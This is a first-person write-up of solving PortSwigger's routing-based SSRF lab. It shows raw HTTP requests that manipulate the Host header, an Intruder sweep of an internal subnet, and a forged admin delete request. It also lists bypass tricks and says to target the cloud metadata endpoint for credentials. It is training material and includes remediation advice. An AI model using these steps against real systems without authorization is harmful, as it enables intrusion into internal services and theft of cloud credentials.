





Routing-based SSRF is one of those vulnerabilities that felt a little too simple to be real the first time exploiting it. In simple cases, all you have to do is change a single header, and BOOM! The front-end is making requests into the internal network on your behalf.

This write-up covers what the attack actually is, why the architecture that enables it is so common, and then walks through the full exploitation path for [`PortSwigger's Routing-based SSRF lab`](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf), where we pivot to an internal admin panel and delete a user. At the end I've thrown in the other Host header attack paths and the bypass tricks worth knowing, because the plain version in the lab is pretty easy.

## What is routing-based SSRF?

Hardly any real web apps run off a single server nowadays. There's a front-end, usually a reverse proxy, a load balancer, or a CDN, and it takes your request and forwards it to a back-end. The question that matters for this attack is simple: how does the front-end decide *where* to forward?
 
A lot of the time, it decides based on the `Host` header. One proxy sits in front of many back-end services and uses the hostname you asked for to pick the destination. This is virtual host routing, and it's a completely normal thing to do.
 
It becomes a vulnerability when the front-end forwards to whatever you put in that header without checking it against an allowlist. Drop an internal IP in there instead of the real hostname and the proxy connects to it and hands you back the response. At that point you've turned the front-end into an open proxy for anything on the internal network.

## Core Concepts

Understanding the moving parts is what lets you spot this on a target that doesn't look exactly like the lab.

### The Host header is what drives routing

The whole reason the `Host` header exists is so one IP can serve many sites. The front-end reads it and routes off it. When nothing validates that value, it can open the door for attackers to reach internal resources. 

### Why "routing-based"

Classic SSRF usually abuses an application feature that fetches a URL (like an image loader, a webhook, a PDF generator,etc.). Routing-based SSRF is different because there's no fetch feature. The SSRF lives in the infrastructure layer, in how the proxy forwards the request itself. Same impact and it's easy to miss because nothing in the app looks like it makes outbound requests.

## When and where it appears

The signs are more about the architecture than anything in the request body:

- Anything behind a reverse proxy, load balancer, or CDN that routes by host
- Cloud deployments where the internal services share a network with the public front-end
- Apps where swapping the `Host` to some arbitrary value gives you a connection-level response (a timeout, a connection refused, a redirect) instead of a flat 400. That's the value reaching the routing layer

My mental note for future testing: any time a front-end forwards requests somewhere, ask what happens if I tell it to forward somewhere it shouldn't.

## Impact

The main impact is reaching internal services you otherwise couldn't touch like unauthenticated admin panels, internal APIs, dashboards, whatever's on the private network that trusts the proxy. From there it's the usual SSRF escalation path, internal service compromise, and if the target's in the cloud, a run at the metadata endpoint (`169.254.169.254`) for temporary credentials. In this lab the goal is reaching an admin panel and deleting a user.

---

## Exploiting routing-based SSRF

> **Objective:** To solve the lab, access the internal admin panel located in the `192.168.0.0/24` range, then delete the user `carlos`.

.

### Confirming the Host header actually routes

First let's catch a request in Burp and point the `Host` header at an address in the target range. I started with `192.168.0.0`:



Request:

```
GET /admin HTTP/2
Host: 192.168.0.0
Cookie: session=S66qHA3n2X2dnrxFjgbD4CQAZPYHdv8Z; _lab=47%7cMC0CFQCHwgulOJQ1IqyhmZOXUtD2Yo1paAIUVcfuQZQ7Cm3%2f03S%2f0OHCPsfUwd2tFugZdHjEio%2flancaD5tAYh1TUmjgdotavH6xIYKpSPOnda%2bU0ora8hcMc8dfMwZQnLkthf60oivcJn846HRri6rni3%2fjS%2fipAnnjxcCnLxCYPMPj


```

Response:

```
HTTP/2 504 Gateway Timeout
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 151

<html><head><title>Server Error: Gateway Timeout</title></head><body><h1>Server Error: Gateway Timeout (3) connecting to 192.168.0.0</h1></body></html>
```

The `504 Gateway Timeout` is the confirmation and it even names the host it tried to reach. The front-end attempted a connection to `192.168.0.0` because we told it to. Nothing's listening there so it timed out, but that's proof the `Host` header steers the back-end routing. Now it's just a matter of finding an IP that *does* answer.

### Sweeping the subnet with Intruder

Send the request to **Intruder** (CTRL+I), set the attack type to **Sniper**, and mark the last octet as the payload position:

```
Host: 192.168.0.§X§
```



One thing that's crucial for this to work, is we need to uncheck the `Update Host header to match target` which is highlighted above.

Now we can just use a **Numbers** payload from `0` to `255` with a step of `1`, and run it.



Every dead host returns a `504` but eventually the admin portal host returns a `200`. Sort by **Status code** (or **Length**) and the outlier jumps to the top:



This time mine got a hit on `192.168.0.135`. Browsing `/admin` on that host returns the internal panel, which includes a delete user form:

```
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
    <input required type="hidden" name="csrf" value="rtU9W8ufSGGwPZjZesede7pqbl6FBTbU">
    <label>Username</label>
    <input required type='text' name='username'>
    <button class='button' type='submit'>Delete user</button>
</form>
```

Now all we have to do is delete `carlos`.

### Deleting carlos

The form tells us the POST body needs two values:

- `csrf` - the token embedded in the form, `rtU9W8ufSGGwPZjZesede7pqbl6FBTbU`
- `username` - the account to delete, `carlos`

Point `Host` at the admin IP, drop those into the body, and send:

```
POST /admin/delete HTTP/2
Host: 192.168.0.135
Cookie: session=S66qHA3n2X2dnrxFjgbD4CQAZPYHdv8Z; _lab=47%7cMC0CFQCHwgulOJQ1IqyhmZOXUtD2Yo1paAIUVcfuQZQ7Cm3%2f03S%2f0OHCPsfUwd2tFugZdHjEio%2flancaD5tAYh1TUmjgdotavH6xIYKpSPOnda%2bU0ora8hcMc8dfMwZQnLkthf60oivcJn846HRri6rni3%2fjS%2fipAnnjxcCnLxCYPMPj

csrf=rtU9W8ufSGGwPZjZesede7pqbl6FBTbU&username=carlos
```

Once that request goes through, `carlos` is deleted and the lab is solved!



---

## Other things a controllable Host header gets you
 
Routing-based SSRF is one use for a `Host` header you control. The same root cause, the app trusting that header, shows up in a few other shapes that are worth being able to recognize:
 
- **Password reset poisoning**, where the reset email builds its link off the `Host` header. Swap in your own domain and the victim's reset token shows up in your logs the moment they click.
- **Web cache poisoning**, where a reflected, unkeyed `Host` (or `X-Forwarded-Host`) value gets cached and then served to everyone else. One request turns into a stored attack.
- **Auth and access-control bypasses**, where an app gates `/admin` on the request *looking* internal. Setting `Host: localhost` or `Host: 127.0.0.1` sometimes strolls right past that.
- **Classic SSRF against internal infra**, same as this lab but aimed at `169.254.169.254` when the target's in the cloud, going after metadata and IAM credentials.


### When the Host header is validated
 
The lab lets you set `Host` to anything. Real targets usually won't, so here's what I try before calling it dead:
 
- **`X-Forwarded-Host`** (and `X-Host`, `X-Forwarded-Server`). The app validates `Host` but pulls routing or link-building from a forwarded header nobody remembered to lock down.
- **Two Host headers.** Send the header twice. The front-end and back-end sometimes disagree about which one counts, and you control the one that ends up mattering.
- **Absolute URL in the request line**, like `GET https://internal/admin HTTP/1.1` with the real `Host` still present. Some servers take the request-line host for routing instead.
- **A malformed or indented header.** A leading space on a second `Host:` line gets ignored by one parser and honored by another.
- **Port injection.** Tacking `:evil` or some arbitrary port onto the hostname can sneak into a reflected URL even when the hostname itself passes validation.
---
 
## The short version of finding it
 
1. Spot a front-end that routes by host, a proxy, LB, or CDN in front of the app.
2. Set `Host` to an arbitrary internal IP and read the response. A **504 or connection error that names your host** means the value is reaching the routing layer.
3. Work out the private range. The lab gives you `192.168.0.0/24`; on a real target you infer it from errors, headers, or recon.
4. **Sniper-sweep the last octet** across the range and filter on the status or length outlier.
5. Hit the internal service's `/admin` (or whatever lives there) and drive it directly through the `Host` pivot.
6. If `Host` is validated, fall back to `X-Forwarded-Host`, duplicate headers, or the request-line tricks above.
7. In the cloud, always throw a request at `169.254.169.254` for metadata.


## Remediation
 
The fix is to stop trusting the `Host` header for routing decisions. Keep a strict allowlist of permitted hostnames at the front-end and reject anything that isn't on it. Just as important, internal services need to enforce their own authentication instead of assuming "it came through the proxy, so it's fine," because that assumption is the actual target here, not the header on its own. Segment internal admin interfaces off the network so the internet-facing proxy can't reach them to begin with, and treat `X-Forwarded-Host` and its friends as attacker-controlled unless you're the one setting and validating them.
 

## Lessons learned
 
What made this finally click for me was realizing the bug isn't in the application code at all. It's in the relationship between the proxy and the back-end.
 
The 504 is the detail I've made a mental note of for enumeration in the future. A timeout or connection error that echoes back the host you supplied is the sign that the routing layer is yours to steer. Once you see that, the rest is just sweeping for the IP that answers.
 